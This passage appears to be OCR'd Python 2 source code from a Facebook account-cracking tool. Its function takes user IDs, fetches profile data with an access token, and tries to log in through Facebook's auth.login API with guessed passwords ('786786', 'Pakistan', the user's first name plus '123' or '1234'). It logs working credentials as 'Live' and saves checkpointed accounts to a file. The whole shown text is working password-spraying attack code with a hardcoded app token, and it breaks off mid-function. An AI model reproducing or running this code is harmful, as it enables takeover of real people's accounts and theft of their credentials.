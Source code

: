 			
	def main(arg):
		global cekpoint,oks
		user = arg
		try:
			os.mkdir('cookie')
		except OSError:
			pass #Dev:qaiser
		try:
			k = requests.get('https://graph.facebook.com/'+user+'/?access_token='+toket)
			y = json.loads(k.text)
			pass1 = ('786786')
			data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass1)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
			s = json.load(data)
			if 'access_token' in s:
				print '\x1b[1;93mLive\x1b[1;97m \x1b[1;97m\x1b[1;97m ' + user + ' \x1b[1;97m\x1b[1;97m ' + pass1
				oks.append(user+pass1)
			else:
				if 'www.facebook.com' in s["error_msg"]:
					print '\x1b[1;93mError\x1b[1;97m \x1b[1;97m\x1b[1;97m ' + user + ' \x1b[1;97m\x1b[1;97m ' + pass1
					cek = open("out/checkpoint.txt", "k")
					cek.write(user+"|"+pass1+"\n")
					cek.close()
					cekpoint.append(user+pass1)
				else:
					pass2 = 'Pakistan'
					data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass2)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
					s = json.load(data)
					if 'access_token' in s:
						print '\x1b[1;93mLive\x1b[1;97m \x1b[1;97m\x1b[1;97m ' + user + ' \x1b[1;97m\x1b[1;97m ' + pass2
						oks.append(user+pass2)
					else:
						if 'www.facebook.com' in s["error_msg"]:
							print '\x1b[1;93mError\x1b[1;97m \x1b[1;97m\x1b[1;97m ' + user + ' \x1b[1;97m\x1b[1;97m ' + pass2
							cek = open("out/checkpoint.txt", "k")
							cek.write(user+"|"+pass2+"\n")
							cek.close()
							cekpoint.append(user+pass2)
						else:
							pass3 = y['first_name'] + '123'
							data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass3)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
							s = json.load(data)
							if 'access_token' in s:
								print '\x1b[1;93mLive\x1b[1;97m \x1b[1;97m\x1b[1;97m ' + user + ' \x1b[1;97m\x1b[1;97m ' + pass3
								oks.append(user+pass3)
							else:
								if 'www.facebook.com' in s["error_msg"]:
									print '\x1b[1;93mError\x1b[1;97m \x1b[1;97m\x1b[1;97m ' + user + ' \x1b[1;97m\x1b[1;97m ' + pass3
									cek = open("out/checkpoint.txt", "k")
									cek.write(user+"|"+pass3+"\n")
									cek.close()
									cekpoint.append(user+pass3)
								else:
									pass4 = y['first_name'] + '1234'
									data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass4)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
									s = json.load(data)